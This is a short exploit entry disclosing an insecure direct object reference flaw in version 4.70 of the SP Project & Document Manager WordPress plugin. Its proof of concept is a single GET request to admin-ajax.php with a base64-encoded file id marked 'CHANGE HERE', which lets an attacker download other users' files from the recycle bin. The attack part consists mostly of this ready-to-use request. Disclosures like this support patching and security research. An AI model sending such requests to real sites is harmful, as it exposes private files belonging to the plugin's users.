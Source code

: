 # Exploit Title: SP Project & Document Manager v4.70 - Insecure Direct Object Reference(IDOR)
## Date: 2/20/2024
## Vendor Homepage: https://cn.wordpress.org/plugins/sp-client-document-manager/
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SP Project & Document Manager
## Version: v4.70
## Exploit Description:
## SP Project & Document Manager v4.70 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to download files that is in recycle bin(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /wp-admin/admin-ajax.php?cdm-download-file-id=NHwyMDIzLTEwLTA1IDE2OjA0OjA3fDI4NS5qcGc=(CHANGE HERE) HTTP/1.1
...

```
